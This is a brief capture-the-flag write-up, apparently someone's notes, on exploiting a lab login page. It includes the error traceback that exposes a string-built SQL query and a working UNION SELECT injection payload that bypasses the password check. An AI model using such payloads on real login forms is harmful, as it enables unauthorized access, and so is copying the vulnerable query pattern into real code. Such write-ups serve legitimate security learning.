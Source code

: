 # Flag 0

- Has a log in page, tried wit admin:password >"unknown user"
- view source to see that "unknown user" is going to be printed regardless, meaning that database can be injected
- Tried putting an aspotrophe after "admin" > "admin'"
- the page returns an SQL error :
  `
  Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
  `
  
  - can bypass password by putting an SQL injection.
  username = 
  `
  ' UNION SELECT '000' AS password#
  `
  password =
  
  `000`
  
  - logged in!
  
 - private page > found flag 0
 
 # Flag 1
 
 -  BurpSuite intercept with a POST request will return the next flag
